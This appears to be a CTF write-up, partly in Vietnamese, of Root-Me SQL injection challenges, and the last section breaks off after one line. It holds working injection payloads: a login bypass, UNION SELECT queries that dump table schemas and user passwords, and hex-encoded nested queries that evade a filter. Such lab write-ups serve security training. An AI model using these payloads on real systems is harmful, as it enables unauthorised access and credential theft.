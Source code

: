 ## [SQL injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Authentication)
### Steps to reproduce

  - Start the challenge
  - Go to the login page
  - Use the following payloads to bypass authentication:
    - Username: `admin' -- `
    - Password: `admin` 
    - Click on the "Login" button
  - Đăng nhập thành công với tư cách là quản trị viên
  - To validate the challenge use this password --> password = 'admin' --> error
  - Ctrl + U để xem source code
  - Tìm thấy password `value` trong source code
  - Submit the password to complete the challenge.

## [SQL injection - Strings](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Strings)
### Steps to reproduce
- Start the challenge
- Bài này cho ta nhiều lựa chọn hơn, ta có các chức năng như đăng nhập, tìm kiếm hay xem thông tin
- Tuy nhiên lỗi sqli xuất hiện tại ô tìm kiếm. 
- Để biết được tại sao lại bị lỗi sqli ta chỉ cần nhập vào ký tự `1'` . Lỗi sẽ xuất hiện Và biết đây là `sqlite3`
- Để khai thác lỗi sqli ta có thể sử dụng payload sau: `1' UNION SELECT sql, null FROM sqlite_master--`
- Ta sẽ thấy được các bảng trong database
- Tiếp theo ta sẽ lấy dữ liệu từ bảng `users` với payload sau: `1' UNION SELECT username,password FROM users--`
- Ta sẽ thấy được username và password của các user trong bảng users
- Submit password của user admin để hoàn thành challenge

## [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)
### Steps to reproduce
- Start the challenge
- Bài này ta có thể thấy lỗi sqli xuất hiện tại tham số id trong url `action=new&new_id=1`
- Để biết được tại sao lại bị lỗi sqli ta chỉ cần nhập vào ký tự `1'` . Lỗi sẽ xuất hiện Và biết đây là `sqlite3`
- Để khai thác lỗi sqli ta có thể sử dụng payload sau: `1 UNION SELECT null,sql, null FROM sqlite_master--`
- Ta sẽ thấy được các bảng trong database
- Tiếp theo ta sẽ lấy dữ liệu từ bảng `users` với payload sau: `1 UNION SELECT null,username,password FROM users--`
- Ta sẽ thấy được username và password của các user trong bảng users
- Submit password của user admin để hoàn thành challenge.

## [SQL Injection – Routed](https://www.root-me.org/en/Challenges/Web-Server/SQL-Injection-Routed)
### Steps to reproduce
- Start the challenge
- Bài này ta có thể thấy lỗi sqli xuất hiện tại chức năng tìm kiếm
- SQL Injection – Routed : HIỂU ĐƠN GIẢN LÀ DẠNG INJECTON MÀ CÂU QUERY 2 SẼ ĐƯỢC “LỒNG” VÀO CÂU QUERY 1
- Playload: `1'` --> lỗi syntax
- Về cơ bản thường ta sẽ khai thác `' union select (giá trị muốn khai thác)-- `. Tuy nhiên thì với routed thì giá trị truy vấn với select đầu tiên sẽ không phải là truy vấn đầu vào.
- Playload: `' UNION SELECT 1-- ` --> done 
- Playload: `' UNION SELECT 'union select null,null-- ` --> `attack detected` chứng tỏ truy vấn đã bị filter mất.=> thử mã hóa `hexa truy` vấn thứ 2
- hexa của `'union select null,null-- -` là `27756E696F6E2073656C656374206E756C6C2C6E756C6C2D2D202D`
- 0x là ký tự đại diện cho hexa với hệ số 16
- Playload: `' UNION SELECT 0x27756E696F6E2073656C656374206E756C6C2C6E756C6C2D2D202D-- ` --> done
- Tìm database
- Playload: `' union select 'union SELECT 1,table_name FROM information_schema.tables where table_schema = database()-- `
- hexa của `'union SELECT 1,table_name FROM information_schema.tables where table_schema = database()-- -` là `27756E696F6E2053454C45435420312C7461626C655F6E616D652046524F4D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D61203D20646174616261736528292D2D202D`
- Playload: `' union select 0x27756E696F6E2053454C45435420312C7461626C655F6E616D652046524F4D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D61203D20646174616261736528292D2D202D-- `
- Tìm cột
- Playloaf: `' union select' union SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'-- - -- `
- hexa của `' union SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'-- -` là `2720756E696F6E2053454C45435420312C67726F75705F636F6E63617428636F6C756D6E5F6E616D65292046524F4D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73205748455245207461626C655F6E616D65203D20277573657273272D2D202D`
- Playload `' union select 0x2720756E696F6E2053454C45435420312C67726F75705F636F6E63617428636F6C756D6E5F6E616D65292046524F4D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73205748455245207461626C655F6E616D65203D20277573657273272D2D202D-- `
- Lấy user pass `' union select' union select 1,concat(login,' : ',password) from users-- - --`

## [SQL injection – Error]
### Steps to reproduce
- `http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC'` --> error --> sql injection
- 